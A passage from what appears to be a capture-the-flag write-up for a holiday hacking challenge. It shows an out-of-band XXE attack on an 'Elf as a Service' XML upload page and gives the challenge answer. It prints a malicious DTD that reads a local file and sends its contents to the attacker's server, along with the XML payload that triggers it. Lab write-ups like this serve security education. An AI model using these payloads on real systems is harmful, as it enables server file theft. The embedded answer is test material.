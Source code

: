 ```javascript
        } catch (e) {
            console.log(e);
            return callback(false, '');
        }
    };
```



_6. The North Pole engineering team has introduced an Elf as a Service (EaaS) platform to optimize resource allocation for mission-critical Christmas engineering projects at http://eaas.northpolechristmastown.com. Visit the system and retrieve instructions for accessing The Great Book page from C:\greatbook.txt. Then retrieve The Great Book PDF file by following those directions. What is the title of The Great Book page?_

_For hints on this challenge, please consult with Sugarplum Mary in the North Pole and Beyond._

tl;dr:

- The title of the page is `The Dreaded Inter-dimensional Tornadoes`.

For this part, I also needed to do a SSH tunnel to access the site from my localhost. Visiting the site, We are presented with a web application with the following functionalities:

- Upload and display an XML file with the corresponding fields: http://eaas.northpolechristmastown.com/Home/DisplayXML
- Reset the XML file to the default one: http://eaas.northpolechristmastown.com/Home/CreateElfs
- A sample XML file at: http://eaas.northpolechristmastown.com/XMLFile/Elfdata.xml

Following the hints, I carried out a XXE with DTD exploit on the application. This time, I need a public IP address again so that the application is able to access the malicious DTD from my server. The setup goes as following:

1. A malicious DTD is accessible on my public server:

    `pwn.dtd`:
    ```bash
    <?xml version="1.0" encoding="UTF-8"?>
    <!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
    <!ENTITY % inception "<!ENTITY &#x25; sendit SYSTEM 'http://<public-ip-goes-here>:8000/?%stolendata;'>">
    ```

2. The malicious xml file to be uploaded to the application:

    `elfdata.xml`:
    ```bash
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE demo [
        <!ELEMENT demo ANY >
        <!ENTITY % extentity SYSTEM "http://<public-ip-goes-here>:8000/pwn.dtd">
        %extentity;
        %inception;
        %sendit;
        ]
    >
    <Elf>
      <Elf>
          <ElfID>1</ElfID>
          <ElfName>x64</ElfName>
          <Contact>13371337</Contact>
          <DateOfPurchase>11/29/3017 12:00:00 AM</DateOfPurchase>
          <Picture>2.png</Picture>
          <Address>here</Address>
      </Elf>
    </Elf>
    ```
